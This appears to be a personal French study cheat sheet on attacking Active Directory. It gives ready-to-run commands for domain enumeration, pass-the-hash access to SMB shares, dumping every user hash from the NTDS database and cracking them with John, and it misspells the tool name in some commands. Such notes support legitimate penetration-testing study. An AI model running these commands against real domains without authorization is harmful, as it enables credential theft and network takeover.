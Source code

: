 ```toc

```
cf le cours sur l'AD : [[Cours/]]

# 1. Trouver le DC
La première étape consiste à trouver le contrôleur de domaine. Pour ça on peut :
- Utiliser *nslookup* car le DC sert souvent de DNS
- Utiliser *nmap* et regarder les services exposés

# 2. Enumération anonyme
```bash
# Enum all domain users, groups, ...
enum4linux -a -u "%" <DC_IP>

crackmapexec ldap
```


# 3. Enumération non-anonyme
```bash
enum4linux -a -u "user" -p "password" <DC_IP>
```


# 4. Accès à une machine
Dump des hash de mots de passe locaux.
Puis attaque Pass The Hash : `crackmapexec -H`


# 5. Pass The Hash
```bash
# List SMB shares
crakmapexec smb <ip_addr> --shares -u <user> -H <hash>

# Access a SMB repository
smbclient -U <domain>/<user> --pw-nt-hash --password=<hash> //<ip_addr>/<dir>
```

Dump base NTDS (tous les hash de tous les utilisateurs)
```bash
crakmapexec smb <ip_addr> -u <user> -H <hash> --ntds

# Format to keep only NT hash (4th elt)
john --format=NT <file>
john --format=NT <file> --show 
john --restore 
```
cf [[Crack hash password]].


# Autres
## Lister les entrées DNS
L'AD répertorie des entrées DNS et par défaut tous les utilisateurs peuvent les lister. Certaines entrées sont cachées, i.e. on accède seulement au nom DNS et pas à l'IP et au type d'entrée (A, AAAA, ...) mais on peut récupère l'IP en faisant une requète DNS (c'est l'option -r).
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-dns-records
```bash
# Display DNS zones
adidnsdump -u <domain>\\<user> ldap://<DC_IP> --print-zones

# Enum DNS records
adidnsdump -u <domain>\\<user> ldap://<DC_IP> -r
cat records.csv

# Enum DNS records from a zone
adidnsdump -u <domain>\\<user> ldap://<DC_IP>.<DNS_zone> -r
cat records.csv
```
